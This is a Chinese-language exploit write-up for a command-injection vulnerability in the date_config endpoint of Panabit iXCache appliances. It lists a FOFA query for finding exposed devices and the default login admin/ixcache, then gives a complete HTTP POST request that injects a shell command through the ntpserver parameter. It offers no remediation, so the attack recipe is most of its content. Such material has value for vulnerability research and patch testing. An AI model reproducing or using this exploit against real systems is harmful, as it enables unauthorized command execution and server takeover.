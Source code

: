 # Panabit iXCache date_config存在后台命令执行漏洞

# 一、漏洞简介
panabit缓存加速产品是一款基于派网公司自研的操作系统（PanaOS）上研发的内容缓存产品。iXCache依靠高稳定性、高可靠性两大特点，可缓存丰富的资源，目前支持Web视频、移动视频、Web音乐、移动音乐、软件下载、应用商店、游戏补丁等八大类资源的缓存。部署灵活、支持交换机镜像和Panabit牵引两种模式，满足不同级别的用户需求。panabit iXCache系统date_config存在命令执行漏洞，攻击者通过漏洞可以执行任意命令，导致服务器失陷。

# 二、影响版本
+ Panabit iXCache

# 三、资产测绘
+ fofa`<font style="color:rgb(255, 0, 0);">title="iXCache"</font>`
+ 特征

![1706801330303-6f77b29b-5337-4c00-9d58-6227a29488d7.png](./img/okCSs9cCa7o9RLED/1706801330303-6f77b29b-5337-4c00-9d58-6227a29488d7-147741.png)

# 四、漏洞复习
1. 使用弱口令`admin/ixcache`登陆系统,获取cookie

![1706801386353-66163cd9-4b54-4c2e-a39f-4d386894b78f.png](./img/okCSs9cCa7o9RLED/1706801386353-66163cd9-4b54-4c2e-a39f-4d386894b78f-179934.png)

2. 使用上一步获取的cookie，执行命令（每次发包需要在登录处重新获取一次cookie）

```plain
POST /cgi-bin/Maintain/date_config HTTP/1.1
Host: 
Cookie: pauser_1626709857_644740=paonline_admin_48217_16289319551;Path=/;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Cookie: pauser_1706355982_749237=paonline_admin_54360_17068008921; pauser_965865545_617716=paonline_admin_59195_9663105331
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

ntpserver=0.0.0.0;ls&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![1706801467914-c7d947fa-0610-4ec2-95fc-93f6dace587b.png](./img/okCSs9cCa7o9RLED/1706801467914-c7d947fa-0610-4ec2-95fc-93f6dace587b-495631.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pm3gifvcepzx9xkc>